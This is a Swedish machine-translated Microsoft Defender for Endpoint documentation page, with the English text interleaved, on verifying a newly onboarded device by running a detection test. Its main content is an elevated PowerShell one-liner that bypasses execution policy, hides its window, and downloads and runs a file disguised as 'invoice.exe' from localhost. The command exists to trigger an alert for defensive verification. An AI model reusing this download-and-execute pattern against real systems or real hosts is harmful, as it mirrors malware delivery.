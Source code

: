 ```yaml
---
title: Köra ett identifieringstest på en nyligen onboarded Microsoft Defender för Endpoint-enhet
description: Kör identifieringsskriptet på en nyligen onboarded enhet för att verifiera att den är korrekt onboarded till Microsoft Defender för slutpunktstjänsten.
keywords: identifieringstest, identifiering, powershell, skript, verifiera, onboarding, microsoft defender för slutpunkts onboarding, klienter, servrar, test
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 89b8ac7d99cfcd4c5e5e647e5ba54e14184ef0bd
ms.sourcegitcommit: 3fe7eb32c8d6e01e190b2b782827fbadd73a18e6
ms.translationtype: MT
ms.contentlocale: sv-SE
ms.lasthandoff: 04/13/2021
ms.locfileid: "51688123"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a><span data-ttu-id="72af4-104">Köra ett identifieringstest på en nyligen onboarded Microsoft Defender för Endpoint-enhet</span><span class="sxs-lookup"><span data-stu-id="72af4-104">Run a detection test on a newly onboarded Microsoft Defender for Endpoint device</span></span> 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


<span data-ttu-id="72af4-105">**Gäller för:**</span><span class="sxs-lookup"><span data-stu-id="72af4-105">**Applies to:**</span></span>
- <span data-ttu-id="72af4-106">Windows 10-versioner som stöds</span><span class="sxs-lookup"><span data-stu-id="72af4-106">Supported Windows 10 versions</span></span>
- <span data-ttu-id="72af4-107">Windows Server 2012 R2</span><span class="sxs-lookup"><span data-stu-id="72af4-107">Windows Server 2012 R2</span></span>
- <span data-ttu-id="72af4-108">Windows Server 2016</span><span class="sxs-lookup"><span data-stu-id="72af4-108">Windows Server 2016</span></span>
- <span data-ttu-id="72af4-109">Windows Server, version 1803</span><span class="sxs-lookup"><span data-stu-id="72af4-109">Windows Server, version 1803</span></span>
- <span data-ttu-id="72af4-110">Windows Server, 2019</span><span class="sxs-lookup"><span data-stu-id="72af4-110">Windows Server, 2019</span></span>
- [<span data-ttu-id="72af4-111">Microsoft Defender för Endpoint</span><span class="sxs-lookup"><span data-stu-id="72af4-111">Microsoft Defender for Endpoint</span></span>](https://go.microsoft.com/fwlink/?linkid=2154037)
- [<span data-ttu-id="72af4-112">Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="72af4-112">Microsoft 365 Defender</span></span>](https://go.microsoft.com/fwlink/?linkid=2118804)

> <span data-ttu-id="72af4-113">Vill du uppleva Microsoft Defender för Slutpunkt?</span><span class="sxs-lookup"><span data-stu-id="72af4-113">Want to experience Microsoft Defender for Endpoint?</span></span> [<span data-ttu-id="72af4-114">Registrera dig för en kostnadsfri utvärderingsversion.</span><span class="sxs-lookup"><span data-stu-id="72af4-114">Sign up for a free trial.</span></span>](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp?ocid=docs-wdatp-exposedapis-abovefoldlink)

<span data-ttu-id="72af4-115">Kör följande PowerShell-skript på en nyligen onboarded-enhet för att verifiera att den rapporterar till Defender för Slutpunkt-tjänsten.</span><span class="sxs-lookup"><span data-stu-id="72af4-115">Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.</span></span>

1. <span data-ttu-id="72af4-116">Skapa en mapp: 'C:\test-MDATP-test'.</span><span class="sxs-lookup"><span data-stu-id="72af4-116">Create a folder:  'C:\test-MDATP-test'.</span></span>
2. <span data-ttu-id="72af4-117">Öppna en upphöjd kommandoradsfråga på enheten och kör skriptet:</span><span class="sxs-lookup"><span data-stu-id="72af4-117">Open an elevated command-line prompt on the device and run the script:</span></span>

   1. <span data-ttu-id="72af4-118">Gå till **Start** och skriv **cmd**.</span><span class="sxs-lookup"><span data-stu-id="72af4-118">Go to **Start** and type **cmd**.</span></span>

   1. <span data-ttu-id="72af4-119">Högerklicka på **Kommandotolken** och välj **Kör som administratör.**</span><span class="sxs-lookup"><span data-stu-id="72af4-119">Right-click **Command Prompt** and select **Run as administrator**.</span></span>

      ![Start-menyn i ett fönster som pekar på Kör som administratör](images/run-as-admin.png)

3. <span data-ttu-id="72af4-121">När du uppmanas till det kopierar du och kör följande kommando:</span><span class="sxs-lookup"><span data-stu-id="72af4-121">At the prompt, copy and run the following command:</span></span>

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

<span data-ttu-id="72af4-122">Fönstret Kommandotolken stängs automatiskt.</span><span class="sxs-lookup"><span data-stu-id="72af4-122">The Command Prompt window will close automatically.</span></span> <span data-ttu-id="72af4-123">Om det lyckas markeras det som slutfört och en ny avisering visas i portalen för den onboarded enheten om ungefär 10 minuter.</span><span class="sxs-lookup"><span data-stu-id="72af4-123">If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.</span></span>

## <a name="related-topics"></a><span data-ttu-id="72af4-124">Relaterade ämnen</span><span class="sxs-lookup"><span data-stu-id="72af4-124">Related topics</span></span>
- [<span data-ttu-id="72af4-125">Registrera Windows 10-enheter</span><span class="sxs-lookup"><span data-stu-id="72af4-125">Onboard Windows 10 devices</span></span>](configure-endpoints.md)
- [<span data-ttu-id="72af4-126">Onboard servers</span><span class="sxs-lookup"><span data-stu-id="72af4-126">Onboard servers</span></span>](configure-server-endpoints.md)
- [<span data-ttu-id="72af4-127">Felsöka problem med Introduktion till Slutpunkt för Microsoft Defender</span><span class="sxs-lookup"><span data-stu-id="72af4-127">Troubleshoot Microsoft Defender for Endpoint onboarding issues</span></span>](https://docs.microsoft.com/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
